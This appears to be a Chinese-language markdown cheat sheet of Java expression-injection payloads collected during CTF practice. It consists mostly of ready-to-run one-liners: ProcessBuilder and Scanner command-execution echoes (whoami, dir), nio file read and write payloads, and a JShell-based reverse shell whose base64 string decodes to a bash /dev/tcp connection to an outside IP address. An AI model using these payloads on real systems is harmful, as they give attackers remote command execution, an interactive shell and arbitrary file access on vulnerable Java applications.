 - 使用JDK原生类BufferedReader构造回显

```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```

![image-20220406160628264](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220406160628264.png)

但是呢这个有一个缺点，就是只能输出一行数据

![image-20220406160642766](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220406160642766.png)

- 利用原生类Scanner

```
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()
```

![image-20220406160800012](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220406160800012.png)

# 记录payload及一些绕过

## payload

- 反弹shell，这在D3CTF中遇到过一次

```
${@jdk.jshell.JShell@create().eval('java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}");')}
```

- 原生类回显

```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```

```
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()
```

- **nio 读文件**

```lisp
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/1.txt"))))
```

- **nio 写文件**

```lua
T(java.nio.file.Files).write(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/1.txt")), '123464987984949'.getBytes(), T(java.nio.file.StandardOpenOption).WRITE)
```
